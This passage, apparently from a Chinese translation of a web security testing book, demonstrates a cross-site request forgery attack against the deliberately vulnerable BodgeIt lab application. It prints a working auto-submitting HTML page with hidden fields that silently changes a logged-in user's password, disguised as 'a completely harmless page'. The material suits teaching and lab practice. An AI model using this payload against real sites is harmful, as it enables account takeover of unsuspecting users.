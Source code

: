 1.  点击提交，你将被重定向到用户的个人资料页面。页面会告诉你密码已成功更新。

1.  尽管这证明了这一点，但外部网站（或者像本例中的本地 HTML 页面）仍然可以在应用程序上执行密码更改请求。用户仍然不太可能点击提交按钮。我们可以自动化这个过程并隐藏输入字段，使恶意内容保持隐藏。让我们基于之前的页面创建一个新页面，命名为`csrf-change-password-scripted.html`：

```
<html>
<script>
function submit_form()
{
 document.getElementById('form1').submit();
}
</script>
<body onload="submit_form()">
<h1>A completely harmless page</h1>
You can trust this page.
Nothing bad is going to happen to you or your BodgeIt account. 
<form id="form1" action="http://192.168.56.11/bodgeit/password.jsp" method="POST">
<input name="password1" value="csrfpassword1" type="hidden">
<input name="password2" value="csrfpassword1" type="hidden">
</form>
</body>
</html>
```

这次，表单有一个 ID 参数，并且页面中有一个脚本，当页面完全加载时会自动提交内容。

1.  如果我们在与 BodgeIt 会话已启动的相同浏览器中加载这个页面，它会自动发送请求，并且用户的个人资料页面会随之显示。在下图中，我们使用浏览器的调试器在请求发送之前设置了一个断点：

![](img/511c7c8a-3264-4620-8802-19488addcee5.png)
